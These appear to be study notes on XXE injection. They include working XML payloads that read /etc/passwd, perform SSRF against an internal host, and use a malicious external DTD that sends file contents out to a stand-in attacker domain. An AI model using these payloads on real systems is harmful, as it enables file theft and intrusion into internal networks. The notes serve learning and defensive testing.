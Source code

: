 **Exploiting XXE to retrieve files**:

- Introduce (edit) a `DOCTYPE` declaration to define an external entity containing the path to the file.
- Modify a data value in XML (that is reflected in response) to make use of the defined external entity.

```jsx
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

**Exploiting XXE to perform SSRF attack**:

- Declare an external entity containing the URL that you want the server to request, in the `DOCTYPE`.
- Make use of the entity you declared in a data field of XML that is being reflected in response.
- If responses are not seen, you can only perform blind SSRF.

```jsx
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "https://vulnerable.internal-website.com"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

# Blind XXE

In Blind XXE, the result of the injected external entity is not reflected in the response. Still blind XXE are exploitable using techniques like OAST for data exfiltration.

**Detecting blind XXE using OAST technique**: You can detect blind XXE by defining an external entity with the value of a domain that you control, and then making use of the defined entity in the data fields of the XML. If you get a DNS/HTTP query in your domain, blind XXE is there.

**XML parameter entities**: Sometimes regular entities used for XXE are blocked by the application due to some input validation or XML parser hardening. This can be bypassed using XML parameter entities. These are special type of entities that can only be used within the DTD itself. They are defined with a `%` before the entity name and are used within the DTD through `%ent;`.

```jsx
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>
```

**Exfiltrating data out-of-band from blind XXE**: 

The attacker need to host a malicious DTD.

```jsx
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```

The DTD here - 

- Creates a parameter entity called `file` that fetches `/etc/passwd`.
- Next it creates another parameter entity `eval` that defines another dynamic entity `exfiltrate` that requests the attacker control domain with parameter that contains the value of `file` entity.
- Next `eval` entity is called that declares the `exfiltrate` entity.
- At last, `exfiltrate` entity is triggered to exfiltrate the data.
